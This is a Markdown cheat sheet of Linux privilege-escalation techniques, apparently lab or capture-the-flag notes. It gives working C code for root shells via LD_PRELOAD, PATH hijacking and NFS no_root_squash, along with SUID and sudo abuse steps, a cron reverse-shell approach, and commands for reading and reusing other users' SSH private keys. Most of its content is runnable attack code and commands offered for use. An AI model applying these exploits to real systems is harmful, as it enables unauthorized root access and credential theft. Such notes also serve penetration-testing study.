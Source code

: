 # Privilege Escalation and Enumeration Techniques

## Enumeration
Before attempting any privilege escalation techniques, it is crucial to first enumerate the system. System enumeration provides essential context that guides the selection of appropriate escalation methods.

### Checking `su` Privileges
To determine if the current user has privileges to use the `su` command:
```bash
cat /etc/pam.d/su
```
This file governs PAM (Pluggable Authentication Modules) configurations for the `su` binary.

---

## Privilege Escalation Techniques

### Kernel Exploits
Identifying the system's kernel version can lead to privilege escalation if an associated vulnerability is found. These vulnerabilities can often be exploited using public CVEs.

- **Check kernel version:**
```bash
uname -r
```
- **Look for matching CVEs:** [Linux Kernels CVEs](https://www.linuxkernelcves.com/cves)

After identifying a suitable exploit:
1. Understand the exploit thoroughly.
2. Transfer the exploit to the target system (e.g., using Python's `SimpleHTTPServer` on the attacker machine and `wget` on the target).

---

### Sudo Exploitation
Use the following command to list sudo privileges:
```bash
sudo -l
```
Check the output for potentially exploitable binaries or scripts.

- Use [GTFO Bins](https://gtfobins.github.io/) to find ways to exploit commands listed by `sudo -l`.

#### Example Output:
```
User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```
This indicates full root-level access without needing a password.

#### Leveraging Application Functions
Some applications (like Apache2) might support loading alternate configuration files. If the `sudo -l` output includes:
```
env_keep+=LD_PRELOAD
```
This allows dynamic loading of shared libraries into binaries.

- Example malicious shared object code (C):
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

- Compile and run:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

---

### SUID (Set-user Identification)
Files with the SUID or SGID bit set run with the privileges of the file owner.

- List SUID/SGID files:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
- Use [GTFO Bins](https://gtfobins.github.io/) with the "SUID" filter to look for exploitable binaries.

Use `ls -la` to analyze suspicious files further.

---

### Capabilities
Linux capabilities provide fine-grained control over root-like privileges.

- Check enabled capabilities:
```bash
getcap -r / 2>/dev/null
```
- Compare results with [GTFO Bins](https://gtfobins.github.io/) to identify escalation vectors.

---

### Cron Jobs
Cron jobs execute scripts at regular intervals with the privileges of the file owner.

- View crontab configuration:
```bash
cat /etc/crontab
```

If a script is editable and runs as root, replace its contents with a reverse shell or privilege-escalating payload and set up a listener to catch the shell.

---

### PATH Variable Hijacking
The `PATH` environment variable tells the system where to find executables.

- Check PATH:
```bash
echo $PATH
```
- Check for writable directories:
```bash
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
```

If a writable directory is in `PATH`, you can create a fake binary with the same name as a called command.

#### Example Exploit:
1. C code (`path_exp.c`):
```c
#include<unistd.h>
void main() {
  setuid(0);
  setgid(0);
  system("thm");
}
```
2. Compile and set SUID:
```bash
gcc path_exp.c -o path -w
chmod u+s path
```
3. Add writable dir to PATH and place `thm`:
```bash
export PATH=/tmp:$PATH
echo "/bin/bash" > /tmp/thm
chmod 777 /tmp/thm
./path
```

---

### NFS (Network File System)
If `no_root_squash` is set for an exported share, files created by root on the client are preserved as root on the server.

- Check `/etc/exports`:
```bash
cat /etc/exports
```
- Find exports:
```bash
showmount -e <target-IP>
```
- Mount the export:
```bash
mkdir /tmp/backupsonattackermachine
mount -o rw <target-IP>:/backups /tmp/backupsonattackermachine
```
- Create exploit file (`nfs.c`):
```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```
- Compile and set SUID:
```bash
gcc nfs.c -o nfs -w
chmod +s nfs
```
- Execute on target:
```bash
./nfs
```

---

### Readable Folders for SSH Access
Enumerate readable folders to find potential SSH private keys.

- Find readable folders:
```bash
find / -readable 2>/dev/null | cut -d "/" -f 2 | sort -u
```
- Navigate to user folders with readable permissions:
```bash
cd /home
ls -la
```
- Check `.ssh` directory:
```bash
ls -la .ssh
cat id_rsa
```
- Copy the key and use it to log in:
```bash
chmod 600 key_file
ssh user@<IP_ADDRESS> -i key_file
```

---

